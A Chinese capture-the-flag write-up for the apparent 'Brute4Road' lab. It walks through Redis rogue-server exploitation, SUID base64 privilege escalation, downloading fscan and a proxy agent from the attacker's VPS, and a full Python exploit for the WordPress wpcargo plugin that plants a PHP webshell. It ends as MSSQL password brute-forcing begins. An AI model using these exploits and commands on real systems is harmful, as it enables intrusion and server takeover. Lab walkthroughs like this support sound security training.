


Brute4Road
外网
fscan扫一下
1
|
fscan.exe -h 39.99.150.39
|

发现redis未授权，打redis的主从复制
redis主从复制
https://github.com/n0b0dyCN/redis-rogue-server/tree/master
将py脚本与so文件都放在自己的 vps上面运行
1
|
python3 redis-rogue-server.py --rhost 39.99.155.162 --lhost 101.200.39.193
|


1
|
这里要确保自己vps防火墙要打开21000端口
|
从复制极有可能把靶机打崩，因此我们利用成功之后若是不小心退出了shell，只能重启环境。
然后输入下面的命令，创建伪终端
1
|
python -c 'import pty; pty.spawn("/bin/bash")'
|
输入下面的命令，找到flag目录以及flag01位置
1
|
find / -iname "flag*" 2>/dev/null
|

发现没权限，打suid提权
1
|
find / -user root -perm -4000 -print 2>/dev/null
|
可以找到一个base64提权 (https://gtfobins.github.io/gtfobins/base64/)

1
|
base64 "flag01" | base64 --decode
|

内网：
1
|
vps开启一个http服务, 用于在题目靶机上下载fscan,stowaway
|
1
|
python3 -m http.server 8080
|
靶机内
1
2
3
4
5
6
7
|
cd /tmp
wget http://101.200.39.193:8080/fscan
wget http://101.200.39.193:8080/linux_x64_agent
然后赋予权限
chmod 777 ./fscan
chmod 777 ./linux_x64_agent
|
ifconfig无法查看ip, 使用netstat -ano查看网络服务可以看到靶机内网ip, 用于扫描

1
|
./fscan -h 172.22.2.7/24
|

1
2
3
4
5
|
172.22.2.3 域控主机
172.22.2.7 CentOs服务，已拿下
172.22.2.18 WordPress站点, 存在smb弱口令
172.22.2.16 域内主机,MSSQLSERVER服务, 存在smb弱口令
172.22.2.34
|
先看看wordpress的站点, 找找有没有漏洞
搭建代理
vps
1
|
./linux_x64_admin -l 12345 -s 123456
|
客户端
1
|
./linux_x64_agent -c 101.200.39.193:12345 -s 123456 --reconnect 8
|
然后vps打

wpcargo插件漏洞
扫描一下wordpress的站点, 查看是否有漏洞
1
|
proxychains4 wpscan --url http://172.22.2.18
|

网上有 poc https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a/
直接利用脚本打
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
|
import sys
import binascii
import requests
# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'
def encode_character_code(c: int):
return '{:08b}'.format(c).replace('0', 'x')
text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]
destination_url = 'http://172.22.2.18/'
cmd = 'ls'
# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
requests.get(
f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)
# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(
f"{destination_url}webshell.php?1=system", data={"2": cmd}
).content.decode('ascii', 'ignore'))
|
1
|
proxychains4 python 1.py
|

访问相应路由可以发现shell已经写入进去了, 用蚁剑连接

蚁剑连之前也要先进行socks代理


没有找到flag, 但是有一个配置文件, 里面有数据库的用户名和密码

直接用蚁剑连接数据库,数据库里面可以直接找到flag


这里看到提示，给了一些弱密码，应该提醒要爆破。

mssql弱口令
前面fscan搜集的一些信息可知, 172.22.2.16主机是存在mssql服务的, 并且开放了1433端口,那么把数据导出来, 爆破一下密码